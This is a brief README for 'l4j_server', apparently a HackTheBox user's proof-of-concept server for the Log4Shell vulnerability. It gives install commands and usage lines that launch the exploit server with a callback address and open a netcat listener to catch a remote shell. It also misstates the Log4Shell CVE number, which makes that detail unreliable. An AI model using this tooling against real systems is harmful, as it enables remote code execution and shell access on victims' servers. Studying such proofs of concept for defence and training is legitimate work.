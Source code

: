 

# l4j_server 
l4j_server is a lightweight, standalone server to be used a POC for the L4J vulnerability associated with Log4Shell (CVE-2021-2448)    



## Installation
```
git clone https://github.com/serialwaffle/l4j_server.git
tar -xvf jdk-8u202-linux-x64.tar
```

## Usage
```
python3 log4j_Server.py <callback_ip:callback_port> <HTTP_server_port>

nc -lnvp <callback_port>

```


## Support 
If you appreciate my work and HackTheBox, feel free to give me some respect:  

<a href="https://www.hackthebox.eu/profile/5305"><img src="https://www.hackthebox.eu/badge/image/5305" width="150"></a>
